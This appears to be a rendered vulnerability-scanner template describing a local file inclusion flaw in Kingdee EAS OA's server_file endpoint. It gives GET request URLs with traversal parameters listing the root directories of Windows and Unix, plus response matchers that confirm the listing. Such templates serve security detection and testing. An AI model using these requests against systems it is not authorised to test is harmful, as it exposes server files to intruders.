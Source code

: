 **Type - status**

- status
  1. 200

**Type - word**

- words
  1. text/plain
- part - header

---

# Kingdee EAS - Local File Inclusion

## Description

- Kingdee EAS OA server_file is vulnerable to local file inclusion and can allow attackers to obtain sensitive server information.
- severity - high
- tags - kingdee,lfi,traversal

## Requests

- Method - GET

### URL

- {{BaseURL}}/appmonitor/protected/selector/server_file/files?folder=C://&suffix=
- {{BaseURL}}/appmonitor/protected/selector/server_file/files?folder=/&suffix=

### Matchers

**Type - word**

- part - body
- words
  1. {"name":"Windows","path":"C:\\\\Windows","folder":true}
  2. {"name":"root","path":"/root","folder":true}
- condition - or

**Type - word**

- words
  1. application/json
- part - header

**Type - status**

- status
  1. 200

---
